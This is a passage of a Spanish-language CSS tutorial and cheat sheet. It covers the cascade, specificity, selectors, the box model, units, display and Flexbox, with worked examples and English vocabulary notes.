




# 🎨 CSS · Diseño y maquetación
> Cascada, selectores, cajas, Flexbox, Grid, responsive, color moderno, animaciones, herramientas y los errores que otros ya cometieron.

## 🌱 Qué es CSS y por qué existe

🧠 Concepto: **CSS** (Cascading Style Sheets, hojas de estilo en cascada) es el lenguaje que dice **cómo se ve** un documento HTML: colores, tamaños, posiciones, tipografía, animaciones y cómo se adapta a cada pantalla.

El problema que resolvió: en los 90 el aspecto se metía **dentro** del HTML (`<font color="red">`, tablas para maquetar, `<center>`). Cambiar el color de todos los títulos de un sitio de 500 páginas era editar 500 archivos. CSS separa **contenido** (HTML: qué es cada cosa) de **presentación** (CSS: cómo se ve). Un solo archivo `.css` cambia el aspecto de todo el sitio.

```flujo
HTML -> DOM : el navegador lo parsea
CSS -> CSSOM : reglas parseadas
DOM -> Render tree
CSSOM -> Render tree
Render tree -> Layout : tamaños y posiciones
Layout -> Paint : píxeles
Paint -> Pantalla
```

📌 Resumen: el navegador junta el **DOM** (el árbol del HTML) y el **CSSOM** (el árbol de estilos) para decidir qué caja va dónde y de qué color. Todo lo que aprendas en esta hoja es una forma de influir en ese cálculo.



### 🕰️ Historia corta

```tiempo
1994 : Håkon Wium Lie propone CSS en el CERN
1996 : CSS 1 es recomendación del W3C
1998 : CSS 2: posicionamiento, media types
2003 : CSS Zen Garden: mismo HTML, mil diseños
2011 : CSS 2.1 final; CSS3 se parte en módulos
2017 : Grid y variables CSS en todos los navegadores
2023 : :has(), container queries, nesting, oklch
2024 : @starting-style, light-dark(), logo nuevo
2025 : anchor positioning y view transitions se extienden
```

💡 Consejo: desde CSS3 ya **no hay "CSS4"** como versión única: cada módulo (Grid, Color, Selectors…) avanza por su cuenta. Por eso se habla de "CSS moderno" y se mira **Baseline** (qué funciona en todos los navegadores principales) en MDN o caniuse.com.

### ✍️ Anatomía de una regla

```css
/* selector     { propiedad: valor; } */
h1 {
  color: #7c3aed;          /* declaración = propiedad + valor */
  font-size: 2.5rem;
  text-align: center;
}

.tarjeta,
.aviso {                   /* lista de selectores: misma regla para ambos */
  padding: 1rem;
  border-radius: 12px;
}
```

- `<link rel="stylesheet" href="estilos.css">` :: CSS externo en el `head`: la forma correcta (se cachea)
- `<style> p { color: red; } </style>` :: CSS interno: pruebas o CSS crítico
- `<p style="color: red">` :: En línea: gana casi siempre y ensucia el HTML
- `/* comentario */` :: El único comentario de CSS (`//` NO existe)
- `@import url("otro.css");` :: Importar desde CSS (bloquea la descarga paralela: evítalo en producción)
- `F12 → Elements → Styles` :: DevTools: ver y probar estilos en vivo

⚠️ Cuidado: CSS **no da errores**. Si escribes `colr: red` o te olvidas un `;`, el navegador ignora esa declaración en silencio y sigue. Por eso DevTools (que tacha y marca con ⚠️ lo inválido) es tu mejor amigo.

### 🏢 Dónde lo vas a ver en la vida real

| Proyecto real | Qué hace con CSS |
|---|---|
| GitHub | Sistema de diseño propio (Primer) con variables CSS para temas |
| Bootstrap | Nació en Twitter (2011) y se volvió el framework CSS más usado de su época |
| Tailwind CSS | Clases utilitarias; muy usado con React/Next.js |
| shadcn/ui | Componentes que se copian a tu proyecto (Radix + Tailwind) |
| Material Design (Google) | Guía de diseño implementada en librerías como MUI |
| Yandex | Creó la metodología BEM para ordenar su CSS |

🇬🇧 **stylesheet** /stáilshit/ = hoja de estilos · **rule** = regla · **declaration** = declaración · **property** /próperti/ = propiedad · **value** /váliu/ = valor · **render** = dibujar en pantalla

## ⚖️ Cascada, herencia y especificidad

🧠 Concepto: la **cascada** es el algoritmo que decide qué valor gana cuando varias reglas le dan valores distintos a la **misma propiedad** del **mismo elemento**.

Dos reglas que tocan propiedades distintas **no compiten**: se suman. Solo hay pelea cuando chocan en la misma propiedad. Y el orden de la pelea es siempre este:

```flujo
Choque -> 1 Origen e !important : empate
1 Origen e !important -> 2 Capa @layer : empate
2 Capa @layer -> 3 Especificidad : empate
3 Especificidad -> 4 Orden : empate
4 Orden -> ✅ Gana la última
```

Cada paso solo se mira si el anterior **empató**:
1. **Origen e importancia**: estilos del navegador < del usuario < del autor (tú); `!important` invierte ese orden.
2. **Capa**: entre `@layer`, gana la declarada más tarde; el CSS sin capa gana a todas.
3. **Especificidad**: el selector más preciso.
4. **Orden**: la regla que aparece más abajo (o en el archivo cargado después).

📌 Resumen: **importancia → origen → capas → especificidad → orden de aparición**. El 90% de tus dudas del día a día se resuelven en los dos últimos pasos.

### 🔢 Tabla de puntajes de especificidad

La especificidad se cuenta como tres números **(A, B, C)** y se compara de izquierda a derecha, como versiones: (1,0,0) gana a (0,99,99). No es un número decimal: 11 clases NO vencen a 1 id.

| Pieza del selector | Ejemplo | Suma a |
|---|---|---|
| ID | `#menu` | A (1,0,0) |
| Clase, atributo, pseudo-clase | `.btn`, `[type="email"]`, `:hover` | B (0,1,0) |
| Etiqueta, pseudo-elemento | `p`, `::before` | C (0,0,1) |
| Universal, combinadores | `*`, `>`, `+`, `~`, espacio | nada |
| `:where(...)` | `:where(.btn)` | siempre (0,0,0) |
| `:is()`, `:not()`, `:has()` | `:is(#id, .clase)` | el argumento MÁS fuerte |
| `style="..."` en línea | `<p style>` | gana a cualquier selector |
| `!important` | `color: red !important` | salta a otro nivel |

Calculados con la librería `specificity` de npm (salida real):

| Selector | (A, B, C) |
|---|---|
| `p` | (0, 0, 1) |
| `p::before` | (0, 0, 2) |
| `p.intro` | (0, 1, 1) |
| `nav .menu a:hover` | (0, 2, 2) |
| `#header .logo img` | (1, 1, 1) |
| `ul li:nth-child(2n)` | (0, 1, 2) |
| `body > main article.post h2` | (0, 1, 4) |
| `:is(#id, .clase) a` | (1, 0, 1) |
| `.tarjeta:has(img)` | (0, 1, 1) |
| `:where(.btn)` | (0, 0, 0) |

```js
// Cómo lo comprobé (node, carpeta temporal con: npm i specificity)
import { calculate } from "specificity";
console.log(calculate("nav .menu a:hover"));   // { A: 0, B: 2, C: 2 }
console.log(calculate(":is(#id, .clase) a"));  // { A: 1, B: 0, C: 1 }
```

### ✅ Ejemplo resuelto: ¿de qué color sale el párrafo?

```html
<p id="bienvenida" class="intro">Hola, Bolivia</p>
```

```css
p              { color: black; }  /* (0,0,1) */
.intro         { color: blue;  }  /* (0,1,0) */
p.intro        { color: red;   }  /* (0,1,1) */
#bienvenida    { color: green; }  /* (1,0,0) ← gana */
.intro.intro   { color: pink;  }  /* (0,2,0) truco: repetir la clase sube B */
```

📌 Explicación: sale **verde**. `#bienvenida` tiene A=1 y ningún otro tiene A. Si borras esa regla gana **pink** (0,2,0) sobre red (0,1,1), porque se compara B antes que C. Si dos reglas empatan, gana la que esté más abajo en el archivo.

### 🧬 Herencia

🧠 Concepto: **herencia** = algunas propiedades pasan del padre a los hijos si el hijo no tiene valor propio. Son sobre todo las de **texto**.

::: columnas
### ✅ Se heredan
- `color`
- `font-family`, `font-size`, `font-weight`
- `line-height`, `letter-spacing`
- `text-align`, `visibility`, `cursor`
- Variables CSS (`--lo-que-sea`)
::: siguiente
### ❌ No se heredan
- `margin`, `padding`, `border`
- `width`, `height`
- `background`
- `display`, `position`
- `transform`, `opacity` (aunque el efecto se ve en los hijos)
:::

- `inherit` :: Fuerza heredar del padre: `border-color: inherit;`
- `initial` :: Valor inicial de la especificación (¡`display: initial` es `inline`!)
- `unset` :: Hereda si la propiedad es heredable; si no, `initial`
- `revert` :: Vuelve al estilo por defecto del navegador
- `revert-layer` :: Vuelve al valor de la capa anterior
- `all: unset;` :: Resetea todas las propiedades de un elemento (botones "limpios")

### 🗂️ Capas de cascada con @layer

`@layer` te deja decidir **a mano** qué bloque gana, sin pelear con especificidad. Una regla en una capa posterior gana aunque su selector sea más débil.

```capas
Sin capa : tu CSS suelto, gana a todas las capas
utilidades : .mt-4, .oculto — la última capa declarada gana
componentes : .card, .boton
base : estilos de etiquetas (h1, a, body)
reset : normalizar navegadores — la que menos pesa
```

```css
/* 1) Declara el orden una vez, al inicio */
@layer reset, base, componentes, utilidades;

@layer componentes {
  #app .card .titulo { color: navy; }   /* (1,2,0) pero en capa "componentes" */
}
@layer utilidades {
  .texto-rojo { color: crimson; }       /* (0,1,0) y GANA: su capa va después */
}

/* Importar una librería entera dentro de una capa baja */
@import url("bootstrap.css") layer(base);
```

⚠️ Cuidado: con `!important` el orden de capas se **invierte** (un `!important` en `reset` gana a uno en `utilidades`). Es así a propósito: deja que la capa base "proteja" cosas críticas.
💡 Consejo: si tu estilo "no se aplica", en DevTools la declaración aparece **tachada**; pasa el ratón y te dice qué regla la venció. No adivines: mira.
❌ Mal: arreglar un conflicto poniendo `!important`. Empieza una guerra: el siguiente programador pone otro `!important` y nadie puede sobrescribir nada.
✅ Bien: usa clases (no ids) para estilos, selectores cortos y `@layer` o `:where()` para que lo genérico pese poco.
🇬🇧 **cascade** /kaskéid/ = cascada · **specificity** /spesifísiti/ = especificidad · **inheritance** /injéritans/ = herencia · **override** /ouverráid/ = sobrescribir · **layer** /léier/ = capa

## 🎯 Selectores

🧠 Concepto: un **selector** es un patrón que elige elementos del árbol DOM. Mientras mejor los domines, menos clases tendrás que inventar en el HTML.

```arbol
body
  header.cabecera
    nav.menu
      a (Inicio)
      a.activo (Cursos)
  main
    h2
    p ← "h2 + p" lo elige
    p ← "h2 ~ p" elige este y el anterior
    article.card
      img
      h3
```

### 🔤 Básicos y combinadores

- `* { }` :: Universal: todos los elementos
- `p { }` :: Por etiqueta (tipo)
- `.card { }` :: Por clase: lo más usado
- `#menu { }` :: Por id: evítalo para estilos (pesa demasiado)
- `h1, h2, h3 { }` :: Lista: misma regla para varios
- `.menu a { }` :: Descendiente: `a` dentro de `.menu` a cualquier profundidad
- `.menu > a { }` :: Hijo directo solamente
- `h2 + p { }` :: Hermano adyacente: el `p` justo después de un `h2`
- `h2 ~ p { }` :: Hermanos generales: todos los `p` que siguen al `h2`
- `.btn.activo { }` :: Ambas clases en el MISMO elemento (sin espacio)

⚠️ Cuidado: `.a .b` (con espacio) = "un `.b` dentro de un `.a`"; `.a.b` (sin espacio) = "un elemento con las dos clases". Un espacio cambia todo.

### 🏷️ Atributos

- `[disabled]` :: Tiene el atributo
- `[type="email"]` :: Valor exacto
- `a[href^="https"]` :: Empieza con
- `a[href$=".pdf"]` :: Termina con
- `[class*="col-"]` :: Contiene el texto
- `[lang|="es"]` :: `es` o `es-BO`, `es-ES`…
- `[data-estado="error" i]` :: La `i` lo hace insensible a mayúsculas

### 🖱️ Pseudo-clases: estado y posición

| Grupo | Ejemplos | Para qué |
|---|---|---|
| Interacción | `:hover`, `:active`, `:focus`, `:focus-visible`, `:focus-within` | Feedback al usuario |
| Formularios | `:checked`, `:disabled`, `:user-invalid`, `:placeholder-shown` | Estados de inputs |
| Posición | `:first-child`, `:last-child`, `:nth-child(2n)`, `:only-child` | Listas, tablas cebra |
| Por tipo | `:first-of-type`, `:nth-of-type(3)` | Contar solo un tipo |
| Lógicas | `:is()`, `:where()`, `:not()`, `:has()` | Agrupar, excluir, mirar hijos |
| Otras | `:root`, `:empty`, `:target`, `:visited` | Variables, anclas |

### 🧩 Las cuatro lógicas: :is, :where, :not, :has

| Selector | Qué hace | Especificidad | Ejemplo |
|---|---|---|---|
| `:is(a, b)` | "cualquiera de estos" | La del argumento más fuerte | `:is(h1,h2,h3) a` |
| `:where(a, b)` | Igual que `:is` | Siempre 0 | `:where(ul, ol) li` |
| `:not(x)` | "todo lo que NO sea x" | La del argumento | `li:not(:last-child)` |
| `:has(x)` | "el que CONTIENE / va antes de x" | La del argumento | `.card:has(img)` |

```css
/* :is → menos repetición */
:is(article, aside, section) :is(h1, h2) { text-wrap: balance; }

/* :where → estilos por defecto fáciles de sobrescribir (peso 0) */
:where(ul, ol)[role="list"] { list-style: none; padding: 0; }

/* :not → separadores entre items, menos el último */
.menu li:not(:last-child) { border-right: 1px solid #ddd; }

/* :has → ¡el "selector padre" que esperamos 20 años! */
.card:has(img) { padding-top: 0; }                 /* card con foto */
form:has(:user-invalid) .enviar { opacity: .5; }   /* formulario con errores */
label:has(input:checked) { font-weight: 600; }     /* opción marcada */
body:has(dialog[open]) { overflow: hidden; }       /* bloquea scroll con modal */
h2:has(+ p) { margin-bottom: .25rem; }             /* h2 seguido de un p */
```

🧠 Concepto: `:has()` (Baseline 2023) mira **hacia abajo o hacia adelante** en el árbol y aplica el estilo al elemento de afuera. Antes eso solo se podía con JavaScript.
⚠️ Cuidado: `:has()` sobre `body` o `:root` con selectores amplios obliga al navegador a revisar mucho en cada cambio del DOM. Úsalo acotado (`.card:has(...)` mejor que `:has(.algo)` suelto).

### ✨ Pseudo-elementos: partes de un elemento

- `.btn::before { content: "★ "; }` :: Contenido antes (necesita `content`)
- `.btn::after { content: ""; }` :: Contenido después (decoraciones, overlays)
- `p::first-letter` :: Letra capital
- `p::first-line` :: Primera línea
- `::selection` :: Texto seleccionado con el ratón
- `input::placeholder` :: Texto de ejemplo del input
- `li::marker` :: La viñeta o el número de la lista
- `dialog::backdrop` :: El fondo oscuro detrás de un `<dialog>` modal

```css
/* Tabla cebra */
tbody tr:nth-child(even) { background: #f4f4f5; }

/* Enlaces externos y PDF marcados automáticamente */
a[href^="http"]:not([href*="miweb.bo"])::after { content: " ↗"; }
a[href$=".pdf"]::after { content: " 📄"; }

/* El fondo del modal nativo */
dialog::backdrop { background: rgb(0 0 0 / 50%); backdrop-filter: blur(4px); }
```

⚠️ Cuidado: `::before`/`::after` no aparecen si falta `content` (aunque sea `content: ""`). Y no funcionan en elementos vacíos de reemplazo como `` o `<input>`.
🇬🇧 **descendant** /diséndant/ = descendiente · **child** /cháild/ = hijo · **sibling** = hermano · **pseudo-class** /súdou/ = pseudo-clase · **odd / even** = impar / par · **match** = coincidir

## 📦 Modelo de caja

🧠 Concepto: en CSS **todo es una caja** rectangular. De dentro hacia fuera: **contenido** → **padding** (relleno) → **border** (borde) → **margin** (margen exterior).



```capas
margin : espacio de fuera, transparente, separa de otras cajas
border : la línea; ocupa espacio
padding : relleno de dentro; pinta el background
contenido : texto, imagen; width × height
```

### 📐 box-sizing: el arreglo que todos ponen

Por defecto (`content-box`), `width` mide **solo el contenido**: el padding y el borde se suman por fuera. Por eso una caja de `width: 300px` con padding termina más ancha y rompe tu layout. Con `border-box`, `width` incluye padding y borde: lo que escribes es lo que ocupa.

::: columnas
### ❌ content-box (por defecto)
```css
.caja {
  width: 300px;
  padding: 20px;
  border: 5px solid;
}
/* ocupa 300 + 40 + 10 = 350px */
```
::: siguiente
### ✅ border-box
```css
*, *::before, *::after {
  box-sizing: border-box;
}
.caja { width: 300px; padding: 20px; border: 5px solid; }
/* ocupa 300px exactos */
```
:::

### 🧭 Propiedades lógicas (piensa en idiomas, no en lados)

| Física | Lógica | Por qué |
|---|---|---|
| `margin-left` + `margin-right` | `margin-inline` | Se adapta a idiomas de derecha a izquierda (árabe) |
| `padding-top` + `padding-bottom` | `padding-block` | Eje de bloque (vertical en español) |
| `width` | `inline-size` | Tamaño en la dirección del texto |
| `top/right/bottom/left: 0` | `inset: 0` | Atajo de los 4 |
| `text-align: left` | `text-align: start` | Respeta `dir="rtl"` |

- `padding: 1rem 2rem;` :: Arriba/abajo 1rem, izquierda/derecha 2rem
- `margin: 10px 20px 30px 40px;` :: Arriba, derecha, abajo, izquierda (sentido del reloj: TRBL)
- `margin-inline: auto;` :: Centra un bloque con ancho definido
- `width: min(100% - 2rem, 1100px);` :: Ancho fluido con tope y margen lateral
- `aspect-ratio: 16 / 9;` :: Mantiene proporción (videos, cards)
- `overflow: auto;` :: Scroll solo si hace falta (`hidden` recorta, `clip` recorta sin crear scroll)
- `outline: 2px solid;` :: Contorno que NO ocupa espacio (foco)

### 🧲 Colapso de márgenes

🧠 Concepto: **margin collapse** = en el flujo normal, dos márgenes **verticales** que se tocan no se suman: queda el mayor.

```css
h2 { margin-bottom: 30px; }
p  { margin-top: 20px; }
/* Distancia real entre h2 y p: 30px, no 50px */
```

::: desplegable 🤔 ¿Por qué pasa y cuándo NO pasa?
Viene de la tipografía impresa: un título con espacio abajo y un párrafo con espacio arriba no deberían sumar doble espacio. Pero confunde mucho cuando el margen de un **hijo** "se escapa" fuera del padre (el `h1` con `margin-top` empuja hacia abajo a todo el `header`).

No colapsa cuando:
- El padre es contenedor **flex** o **grid** (sus hijos nunca colapsan).
- Hay `padding` o `border` entre los márgenes.
- El padre crea un nuevo contexto de formato de bloque: `display: flow-root`, `overflow` distinto de `visible`.
- Son márgenes horizontales (esos nunca colapsan).

Solución moderna: usa `gap` en flex/grid y deja de pelear con márgenes.
:::

💡 Consejo: para separar hijos usa `gap` (en flex y grid) o el "búho lobotomizado" `.pila > * + * { margin-top: 1rem; }` en flujo normal.
🇬🇧 **box model** = modelo de caja · **padding** = relleno · **border** = borde · **margin** = margen · **overflow** = desbordamiento · **collapse** /koláps/ = colapsar

## 📏 Unidades

🧠 Concepto: las unidades **absolutas** (`px`) miden siempre lo mismo; las **relativas** dependen de algo: la letra, el padre o la pantalla. Lo moderno es usar relativas para que la página se adapte y respete el tamaño de letra que eligió el usuario.

| Unidad | Relativa a | Úsala para |
|---|---|---|
| `px` | Píxel CSS (fijo) | Bordes, sombras, detalles finos |
| `rem` | Letra de `html` (16px por defecto) | Tamaños de texto, espaciados, radios |
| `em` | Letra del propio elemento | Padding de botones, iconos junto al texto |
| `%` | El padre (ancho, casi siempre) | Anchos fluidos |
| `vw` / `vh` | 1% del ancho / alto de la ventana | Secciones a pantalla completa |
| `dvh` | 1% del alto visible REAL (móvil) | `min-height: 100dvh` |
| `svh` / `lvh` | Alto con barras visibles / ocultas | Cuando quieres que no salte |
| `ch` | Ancho del carácter "0" | Ancho de lectura: `max-width: 65ch` |
| `fr` | Fracción del espacio libre (Grid) | Columnas `1fr 2fr` |
| `cqi` | 1% del ancho del contenedor | Tipografía dentro de container queries |

### 🧮 Funciones: min, max, clamp, calc

- `calc(100% - 2rem)` :: Mezcla unidades distintas (¡espacios alrededor del `-` obligatorios!)
- `min(90%, 1100px)` :: El menor de los dos: ancho fluido con tope
- `max(1rem, 3vw)` :: El mayor: nunca más chico que 1rem
- `clamp(1.5rem, 1rem + 3vw, 3rem)` :: Mínimo, ideal fluido, máximo

```css
html { font-size: 100%; }                   /* 16px y respeta la preferencia del usuario */
h1 { font-size: clamp(1.75rem, 1rem + 4vw, 3.5rem); }   /* tipografía fluida */
.btn { font-size: 1rem; padding: .75em 1.5em; }         /* padding crece con su letra */
.articulo { max-width: 65ch; }               /* 50–75 caracteres por línea */
.portada { min-height: 100dvh; }             /* alto completo también en el celular */
.contenedor { width: min(100% - 2rem, 1100px); margin-inline: auto; }
```

### ✅ Ejemplo resuelto: cuánto mide el h1 con clamp

Con `clamp(1.75rem, 1rem + 4vw, 3.5rem)` (1rem = 16px):

| Ventana | 1rem + 4vw | Resultado |
|---|---|---|
| 360px (celular) | 16 + 14.4 = 30.4px | sobre el piso (28px): **30.4px** |
| 768px (tablet) | 16 + 30.7 = 46.7px | **46.7px** |
| 1440px (laptop) | 16 + 57.6 = 73.6px | pasa el tope: **56px** (3.5rem) |

```grafica
tipo: lineas
titulo: clamp(28px, 16px + 4vw, 56px) según el ancho de la ventana (calculado)
x: 1..20
ymax: 60
ejex: ancho de ventana × 100px
Tamaño h1: 28, 28, 28, 32, 36, 40, 44, 48, 52, 56, 56, 56, 56, 56, 56, 56, 56, 56, 56, 56
```

📌 Explicación: el término `1rem` evita que el texto dependa **solo** del viewport (si fuera `4vw` puro, el zoom del navegador no lo agrandaría: mal para accesibilidad). La gráfica muestra las tres zonas: piso fijo, crecimiento lineal y techo.

::: columnas
### 🤔 ¿rem o em?
- `rem` = siempre relativo a la raíz: predecible.
- `em` = relativo a su propia letra: se **multiplica** al anidar (1.2em dentro de 1.2em = 1.44×).
- Regla: `rem` para casi todo; `em` cuando quieras que algo escale con SU texto (padding de botón, icono).
::: siguiente
### 🤔 ¿Por qué no px para texto?
- Si el usuario sube la letra por defecto del navegador (baja visión), `px` la ignora y `rem` la respeta.
- El zoom (Ctrl +) sí escala ambos.
- `px` sigue siendo correcto para bordes de 1px y sombras.
:::

⚠️ Cuidado: `100vh` en el celular mide el alto **con la barra de direcciones oculta**: tu portada queda cortada abajo. Usa `100dvh` (o `100svh` si no quieres que salte al hacer scroll).
⚠️ Cuidado: `width: 100vw` incluye la barra de scroll en escritorio y produce scroll horizontal. Para "ancho completo" casi siempre basta `width: 100%`.
🇬🇧 **unit** /iúnit/ = unidad · **viewport** /viúport/ = área visible de la ventana · **root em** = em de la raíz · **fluid typography** = tipografía fluida · **dynamic viewport** = viewport dinámico

## 🧊 Display y flujo normal

🧠 Concepto: el **flujo normal** (normal flow) es cómo se colocan las cajas si no haces nada: los **bloques** se apilan de arriba abajo y los **inline** van uno tras otro dentro de las líneas de texto, como palabras.

```flujo
dir: abajo
display -> Exterior : cómo se comporta con sus hermanos
display -> Interior : cómo ordena a sus hijos
Exterior -> block/inline
Interior -> flow/flex/grid
```

📌 Resumen: `display: flex` en realidad es `block flex`: **por fuera** es un bloque, **por dentro** ordena a sus hijos con Flexbox. `inline-flex` = por fuera inline, por dentro flex.

| Valor | Por fuera | Acepta width/height | Ejemplos por defecto |
|---|---|---|---|
| `block` | Ocupa toda la fila, línea nueva | Sí | `div`, `p`, `h1`, `section` |
| `inline` | Dentro del texto | No (ni margen vertical) | `span`, `a`, `strong` |
| `inline-block` | En línea | Sí | Badges, botones viejos |
| `flex` / `grid` | Bloque | Sí | Layouts |
| `inline-flex` | En línea | Sí | Botón con icono |
| `flow-root` | Bloque que contiene sus floats y márgenes | Sí | Arreglar colapsos |
| `contents` | La caja desaparece, los hijos suben | — | Casos especiales |
| `none` | No existe ni ocupa espacio | — | Menú cerrado |

### 👻 Tres formas de "ocultar"

| Propiedad | ¿Ocupa espacio? | ¿Recibe clics? | ¿Lo lee el lector de pantalla? |
|---|---|---|---|
| `display: none` | No | No | No |
| `visibility: hidden` | Sí | No | No |
| `opacity: 0` | Sí | **Sí** | Sí |
| `.sr-only` (clase) | No (visualmente) | No | **Sí** |

```css
/* Oculto a la vista pero leído por lectores de pantalla (accesibilidad) */
.sr-only {
  position: absolute;
  width: 1px; height: 1px;
  padding: 0; margin: -1px;
  overflow: hidden;
  clip-path: inset(50%);
  white-space: nowrap;
  border: 0;
}
```

⚠️ Cuidado: el `` es inline por defecto y deja un **hueco de ~4px** debajo (el espacio para letras como "g", "p"). Arreglo: `img { display: block; }`.
💡 Consejo: los `float` hoy solo sirven para lo que se inventaron: que el texto rodee una imagen. Para maquetar usa Flexbox o Grid.
🇬🇧 **normal flow** /flóu/ = flujo normal · **block** = bloque · **inline** /inláin/ = en línea · **hidden** /jíden/ = oculto · **screen reader** = lector de pantalla

## ↔️ Flexbox completo

🧠 Concepto: **Flexbox** organiza a los hijos directos en **una dimensión** (una fila o una columna) y reparte el espacio sobrante o faltante entre ellos.

Antes de Flexbox, centrar verticalmente o hacer columnas de igual alto requería trucos con tablas, floats y `position`. Flexbox piensa en el **contenido**: "pon estas cosas en fila y repárteles el espacio".



```flujo
dir: abajo
flex-direction -> Eje principal : row = horizontal, column = vertical
flex-direction -> Eje cruzado : siempre el perpendicular
Eje principal -> justify-content
Eje cruzado -> align-items
```

⚠️ Cuidado: con `flex-direction: column` los ejes **se intercambian**: `justify-content` pasa a ser vertical y `align-items` horizontal. Es la confusión número 1 con Flexbox.

### 📦 Propiedades del contenedor

| Propiedad | Valores típicos | Qué hace |
|---|---|---|
| `display` | `flex`, `inline-flex` | Activa Flexbox en los hijos directos |
| `flex-direction` | `row`, `column`, `row-reverse` | Dirección del eje principal |
| `flex-wrap` | `nowrap` (defecto), `wrap` | ¿Pueden bajar a otra línea? |
| `justify-content` | `flex-start`, `center`, `space-between`, `space-evenly` | Reparte en el eje principal |
| `align-items` | `stretch` (defecto), `center`, `flex-start`, `baseline` | Alinea en el eje cruzado |
| `align-content` | `flex-start`, `space-between` | Reparte las LÍNEAS (solo con `wrap`) |
| `gap` | `1rem`, `1rem 2rem` | Espacio entre hijos (filas columnas) |

### 👶 Propiedades de los hijos

| Propiedad | Ejemplo | Qué hace |
|---|---|---|
| `flex-grow` | `1` | Qué parte del espacio LIBRE se lleva |
| `flex-shrink` | `0` | Cuánto cede si falta espacio (0 = nunca) |
| `flex-basis` | `250px` | Tamaño de partida antes de crecer o encoger |
| `align-self` | `flex-end` | Alinea solo a este hijo |
| `order` | `-1` | Orden visual (NO cambia el del teclado) |
| `margin-left: auto` | — | Se come el espacio libre: empuja al extremo |

### 🔑 El atajo `flex` (lo que de verdad significa)

- `flex: 1;` :: = `1 1 0%`: todos parten de 0 y se reparten el espacio en partes iguales
- `flex: auto;` :: = `1 1 auto`: parten de su tamaño de contenido y luego crecen
- `flex: none;` :: = `0 0 auto`: rígido, ni crece ni encoge (iconos, avatares)
- `flex: 0 0 250px;` :: Exactamente 250px siempre
- `flex: 1 1 250px;` :: Ideal 250px, crece y encoge (cards fluidas)
- `flex: 2;` :: Se lleva el doble de espacio libre que un `flex: 1`

### ✅ Ejemplo resuelto: ¿cuánto mide cada hijo?

Contenedor de **600px**, `gap: 0`, tres hijos con `flex-basis: 100px` y `flex-grow` 1, 1 y 2.

1. Espacio usado por las bases: 100 + 100 + 100 = 300px.
2. Espacio libre: 600 − 300 = **300px**.
3. Suma de grows: 1 + 1 + 2 = 4 → cada "parte" vale 300 / 4 = 75px.
4. Resultado: 100 + 75 = **175px**, **175px** y 100 + 150 = **250px**.

📌 Explicación: `flex-grow` NO dice "el doble de ancho", dice "el doble del espacio **sobrante**". Por eso el tercero mide 250 y no 350. Si quieres anchos exactamente proporcionales usa `flex-basis: 0` (o sea `flex: 1` / `flex: 2`): ahí sí quedarían 150, 150 y 300.

### ✅ Ejemplo resuelto: centrar cualquier cosa

```css
.centrar {
  display: flex;
  justify-content: center;   /* eje principal (horizontal) */
  align-items: center;       /* eje cruzado (vertical) */
  min-height: 100dvh;        /* sin altura no hay espacio vertical donde centrar */
}
```

### ✅ Ejemplo resuelto: navbar con logo, menú y botón a la derecha

```html
<nav class="navbar">
  <a href="/" class="logo">🤖 IAprende</a>
  <ul class="menu">
    <li><a href="/cursos">Cursos</a></li>
    <li><a href="/blog">Blog</a></li>
  </ul>
  <a href="/login" class="btn">Entrar</a>
</nav>
```

```css
.navbar {
  display: flex;
  align-items: center;     /* todo alineado al centro vertical */
  gap: 2rem;
  padding: 1rem 2rem;
}
.menu { display: flex; gap: 1.5rem; list-style: none; margin: 0; padding: 0; }
.btn  { margin-left: auto; }  /* se come el espacio libre → pegado a la derecha */
```

### ✅ Ejemplo resuelto: cards con el botón siempre abajo

```css
.cards { display: flex; flex-wrap: wrap; gap: 1.5rem; }
.card {
  flex: 1 1 250px;              /* ideal 250px; crecen para llenar la fila */
  display: flex;
  flex-direction: column;       /* contenido de la card en columna */
  padding: 1.5rem;
  border-radius: 1rem;
  background: #f5f3ff;
}
.card .btn { margin-top: auto; }  /* empuja el botón al fondo de la card */
```

